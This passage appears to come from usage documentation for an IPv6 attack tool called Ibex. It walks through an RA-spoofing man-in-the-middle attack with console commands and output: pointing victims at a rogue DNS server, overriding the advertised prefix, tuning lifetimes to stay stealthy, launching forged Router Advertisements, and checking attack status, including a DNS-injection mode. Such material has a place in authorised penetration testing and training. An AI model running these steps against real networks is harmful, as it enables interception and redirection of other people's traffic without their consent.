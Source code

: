 ```
ibex spoofing mitm> set dns 2001:db8:1::2
```

> Optional: If you want to override the advertised prefix:
>
> ```bash
> ibex spoofing mitm> set prefix 2001:db8:bad:: 
> ```

**⚠️ IMPORTANT: Set lifetimes manually**

You **must** define the lifetimes explicitly before starting the attack especially in MITM attacks.
This is crucial for staying stealthy and minimizing impact on the network. Spoofing forever is dangerous.

```bash
ibex spoofing mitm> set lifetime 120
ibex spoofing mitm> set dnslifetime 120
```

 **Launch the attack**

```bash
ibex spoofing mitm> start
```

Ibex will begin broadcasting forged RA packets with your DNS and prefix:

```
6	6.143826653	fe80::20c:29ff:fe3b:ac5f	ff02::1	238	ICMPv6	Router Advertisement from 00:0c:29:3b:ac:5f
```

**Monitor and stop**

```bash
ibex spoofing mitm> show

[*] Current config (mitm):

  interface: eth0
  mac: 00:0c:29:3b:ac:5f
  llip: fe80::20c:29ff:fe3b:ac5f
  prefix: 2001:db8:1::
  dns: ['2001:db8:1::2']
  lifetime: 300
  dns_lifetime: 300
  interval: 2
  packet_count: 4
```

You can also monitor the status of other modes:

```bash
ibex spoofing> status

[*] Active attack status:

  [mitm]
    Running:   Yes
    Interface: eth0
    Prefix:    2001:db8:1::
    Packets:   140
    DNS:       2001:db8:1::2

  [dnsinject]
    Running:   No
    Interface: None
    Prefix:    2001:db8:1::
    Packets:   0
```